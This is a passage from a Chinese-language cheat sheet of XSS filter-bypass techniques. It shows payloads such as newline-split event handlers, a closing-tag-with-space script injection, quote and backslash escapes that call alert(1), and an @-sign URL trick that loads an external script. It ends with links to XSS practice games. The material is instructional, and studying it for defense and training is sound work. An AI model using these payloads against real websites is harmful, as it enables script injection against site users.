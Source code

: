 #### javascript伪协议绕过

　　无法闭合双引号的情况下，就无法使用onclick等事件，只能伪协议绕过，或者调用外部js

#### 换行绕过正则匹配

```
onmousedown
=alert(1)
```

#### 注释符

```
// 单行注释
<!-- --!> 注释多行内容
<!-- --> 注释多行内容
<-- --> 注释多行内容
<-- --！> 注释多行内容
--> 单行注释后面内容
/* */ 多行注释
有时还可以利用浏览器的容错性，不需要注释
```

#### 闭合标签空格绕过

```
</style ><script>alert(1)</script>
```

#### @符号绕过url限制

```
https://www.segmentfault.com@xss.haozi.me/j.js
```

其实访问的是@后面的内容

#### ")逃逸函数后接分号

```
");alert(1)//
```

#### \绕过转义限制

```html
\")
alert(1) //
```

XSS练习平台

　　以下是几个XSS攻击小游戏，开发者在网站上故意留下了一些常见的 XSS 漏洞。玩家在网页上提交相应的输入，完成 XSS 攻击即可通关。

[alert(1) to win](https://alf.nu/alert1) 　　[prompt(1) to win](http://prompt.ml/) 　　[XSS game](https://xss-game.appspot.com/)　　[XSS Challenges](http://xss-quiz.int21h.jp/)

### 参考资料
